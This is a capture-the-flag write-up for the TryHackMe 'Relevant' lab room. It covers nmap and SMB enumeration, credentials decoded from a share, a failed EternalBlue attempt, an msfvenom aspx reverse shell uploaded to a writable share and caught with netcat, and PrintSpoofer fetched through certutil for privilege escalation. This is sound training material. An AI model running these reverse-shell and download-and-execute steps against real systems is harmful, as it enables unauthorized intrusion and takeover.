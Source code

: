# Relevant

**Room Link:** [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)&#x20;



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.145.102
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

<pre><code><strong>nmap -p- 10.10.145.102
</strong></code></pre>

### 135/TCP - msrpc

```
nbtscan 10.10.145.102
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - microsoft-ds

There is a share but we couldn't access with smbget but smbclient worked. There was only one file called passwords.txt

<pre><code>smbclient -L http://10.10.179.48
smbget -R smb://10.10.145.102/nt4wrksv
<strong>smbclient  \\\\10.10.145.102\\nt4wrksv 
</strong><strong>smb: \> ls
</strong>smb: \> get passwords.txt 
smb: \> exit

</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (3) (1).png" alt=""><figcaption><p>Can't download files with smbget</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption><p>Downloaded password file</p></figcaption></figure>

The file contained two bade64 encoded strings which decoded into users and passwords

```
cat passwords.txt 
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
```

**Credentials Found**

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

### Scanning for vulnerabilities

Decided to scan for vulnerabilities and nmap detected that the host is vulnerable to  m17-010 (EternalBlue)

```
sudo nmap 10.10.145.102 -p80,135,139,445,3389 --script *vuln*
```

<figure><img src="../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

The exploit did not work as expected. It seems the credentials do not work for smb so now we must explore a different route.

```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bob:!P@$$W0rD!123'
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bill:Juw4nnaM4n420696969!$$$'
```



### TCP/80 - HTTP

```
gobuster dir -u http://10.10.179.48 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```



We can see the passwords.txt file from the browser

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

We can upload files to the nt4wrksv and view the files on webserver on  port 49663 so that means we should be able to add a reverse shell.

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.179.48  LPORT=1337 — platform windows -a x64 -f aspx -o shell.aspx
smbclient \\\\10.10.231.48\\nt4wrksv
put shell.aspx

```

<figure><img src="../../.gitbook/assets/image (2) (2) (3).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

<pre><code><strong>rlwrap nc -lvnp 1337
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (11) (5) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Exploit:** [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

As SeImpersonatePrivilege is enabled for the user we can use Printspoofer as it works on Windows 10 and Server 2016/2019.

****

**Victim**

```
systeminfo
whoami /priv
```

<figure><img src="../../.gitbook/assets/image (16) (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/dievus/printspoofer
cd printspoofer/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd C:\Windows\Temp
certutil -urlcache -f http://10.10.163.87:81/PrintSpoofer.exe PrintSpoofer.exe
PrintSpoofer.exe -i -c whoami
PrintSpoofer.exe -i -c powershell.exe
```

<figure><img src="../../.gitbook/assets/image (13) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (3) (1).png" alt=""><figcaption></figcaption></figure>
